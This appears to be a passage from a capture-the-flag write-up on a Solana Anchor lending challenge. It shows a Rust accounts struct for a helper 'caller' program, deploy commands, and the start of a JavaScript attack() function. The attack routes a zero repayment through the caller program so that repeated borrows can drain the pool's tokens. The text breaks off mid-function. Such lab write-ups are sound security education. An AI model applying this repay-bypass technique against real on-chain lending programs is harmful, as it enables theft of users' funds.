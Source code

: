 ```rust
    }
}

#[derive(Accounts)]
pub struct RepayStuff<'info>{
    pub chall3: Program<'info, Challenge3>,
    pub player: AccountInfo<'info>,
    pub user: Signer<'info>,
    pub state: Account<'info, State>,
    pub pool: Account<'info, Pool>,
    pub pool_account: Account<'info, TokenAccount>,
    pub depositor_account: Account<'info, TokenAccount>,
    pub token_program: Program<'info, Token>,
}
```
- Deploying the program locally.

```bash
$ anchor build --program-name caller                  //buliding
$ solana program deploy target/deploy/caller.so       //deploying
Program Id: 3dxs6HNWYRGW3LTQygqJaJDYhbGEfA8NR1HKEbpi6rZ6
```

- The instruction calls:
    borrow(50), repay(0) with the caller program, borrow(50), repay(50) to our program
    By the end we end up with 50 tokens in our account, we could then repeat this to steal all the balance from the pool.

```js
// all player code goes here
async function attack() {

    console.log(accounts);

    // pool balance
    let poolAccount = await spl_token.getAccount(conn, accounts.poolAccount);
    console.log(`Pool amount: ${poolAccount.amount}`);

    // player token account
    let playerTokenAccount = await spl_token.getAccount(conn, await spl_token.getAssociatedTokenAddress(accounts.atomcoinMint, player.publicKey));
    console.log(`Player amount: ${playerTokenAccount.amount}`);
    
    // caller program
    const callerProgramId = "3dxs6HNWYRGW3LTQygqJaJDYhbGEfA8NR1HKEbpi6rZ6";
    const callerIdl = JSON.parse(fs.readFileSync("../chain/target/idl/caller.json"));
    const callerProgram = new anchor.Program(callerIdl, callerProgramId, "caller program");
    // console.log(callerProgram);

    // list storing all the txns
    const txn = new anchor.web3.Transaction();

    // borrowing 50 
    txn.add(program.instruction.borrow(new BN(50), {
        accounts: {
            player: player.publicKey,
            user: player.publicKey,
            state: accounts.state,
            pool: accounts.pool,
            poolAccount: accounts.poolAccount,
            depositorAccount: playerTokenAccount.address,
            instructions: SYSVAR_INSTRUCTIONS_PUBKEY,
            tokenProgram: TOKEN_PROGRAM_ID
        }
    }));
```